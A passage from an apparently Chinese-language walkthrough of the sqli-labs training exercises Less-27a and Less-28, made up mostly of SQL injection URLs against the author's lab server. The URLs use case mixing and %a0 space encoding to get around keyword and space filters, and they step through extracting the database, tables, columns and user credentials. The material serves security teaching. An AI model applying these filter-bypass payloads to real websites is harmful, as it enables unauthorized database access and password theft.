 暴库

```
http://daishen.ltd:1112/Less-27a/?id=0" uniOn sElect 1,database(),3 && "1"="1

http://daishen.ltd:1112/Less-27a/?id=0"%a0uniOn%a0sElect%a01,database(),3%a0%26%26%a0"1"="1
```

爆表

```
http://daishen.ltd:1112/Less-27a/?id=0" uniOn sElect 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() && "1"="1

http://daishen.ltd:1112/Less-27a/?id=0"%a0uniOn%a0sElect%a01,group_concat(table_name),3%a0from%a0information_schema.tables%a0where%a0table_schema=database()%a0%26%26%a0"1"="1
```

暴字段

```
http://daishen.ltd:1112/Less-27a/?id=0" uniOn sElect 1,group_concat(column_name),3 from information_schema.columns where table_name=’users’ && "1"="1

http://daishen.ltd:1112/Less-27a/?id=0"%a0uniOn%a0sElect%a01,group_concat(column_name),3%a0from%a0information_schema.columns%a0where%a0table_name='users'%a0%26%26%a0"1"="1
```

暴值

```
http://daishen.ltd:1112/Less-27a/?id=0" uniOn sElect 1,group_concat(username,0x3a,password),3 from users where "1"="1

http://daishen.ltd:1112/Less-27a/?id=0"%a0uniOn%a0sElect%a01,group_concat(username,0x3a,password),3%a0from%a0users%a0where%a0"1"="1
```

# **Less 28 **

**GET - Error Based- All your UNION & SELECT belong to us String-Single quote with parenthesis基于错误的，有括号的单引号字符型，过滤了union和select等的注入**

这里 union 和 select 这里可以使用双写嵌套大小写绕过，过滤了注释的话 就使用闭合绕过，过滤了空格使用 Less-26 的编码绕过

暴位置

```
http://daishen.ltd:1112/Less-28/?id=0') uniOn sElect 1,2,3 && ('1')=('1

http://daishen.ltd:1112/Less-28/?id=0')%a0uniOn%a0sElect%a01,2,3%a0%26%26%a0('1')=('1
```

暴库

```
http://daishen.ltd:1112/Less-28/?id=0') uniOn sElect 1,database(),3 && ('1')=('1

http://daishen.ltd:1112/Less-28/?id=0')%a0uniOn%a0sElect%a01,database(),3%a0%26%26%a0('1')=('1
```
